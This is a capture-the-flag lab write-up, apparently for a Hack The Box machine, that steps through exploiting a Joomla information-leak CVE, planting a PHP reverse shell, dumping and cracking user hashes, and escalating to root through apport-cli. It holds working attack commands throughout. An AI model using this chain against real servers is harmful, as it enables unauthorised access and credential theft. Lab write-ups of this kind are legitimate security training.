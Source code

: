 # - MARKET PLACE WRITEUP-

```
SETUP

> Add IP to host file in /etc/hosts
> IP devvortex.htb
```

## Reconnaissance

1. Find the open ports
    - `sudo nmap -sV IP`

2. Enumerate the subdomains
    - `gobuster dns -d devvortex.htb -w wordlist.txt`

3. Identify the subdomain of `dev` adding it to host and enumerating directories
    - `dirsearch -u http://devvortex.htb`

4. Visit the /administration page and see login page runs on joomla

## Enumeration
5. Check for joomla [CVE](https://feedly.com/cve/CVE-2023-23752) exploits and find the following
    - `curl -v http://IP/api/index.php/v1/config/application?public=true | jq` ([Explanation](https://github.com/Pushkarup/CVE-2023-23752))

6. See in the JSON the password for `lewis`
7. Log in as lewis on the adminstration panel
8. Make your way across admin page where you can modify individual webpages, including index.php

## Escalation
9. Listen on port 4444: 
    - `nc -lvnp 4444`
    - Submit a php reverse shell
        - exec()
        - click Save and Close
10. Should now have a reverse shell into the server as `www-data`
11. Upgrade our shell: 
    - `script /dev/null -c /bin/bash`
    - Ctrl + Z
    - `stty raw -echo; fg`
    - Press Enter twice
    - `export TERM=xterm`
12. Returning to the CVE results we can see mysqli is running
13. Connect to the mysql server: `mysql -u lewis -p`
    - Enter previous password
    - `SHOW DATABASES;`
    - `USE joomla;`
    - `SHOW TABLES;`
    - `SELECT * FROM sd4fg_users;`
14. Use John the Ripper to crack the Bcrypt password for Logan's row as he is a user in home directory
15. `ssh logan@IP` & `cat user.txt`
16. SEE WHAT WE CAN RUN AS SUDO
    - `sudo -l`
    - Find /usr/bin/apport-cli

17. Run apport-cli and see it lets you view crash files
    - generate a file with `-f` flag and then once selected stuff press `V`

18. It is a vi shell so you can launch bash with 
    - [`!/bin/bash`](https://github.com/diego-tella/CVE-2023-1326-PoC)

19. With ROOT you can now get the root.txt file using 
    - `find / -name root.txt 2>/dev/null`

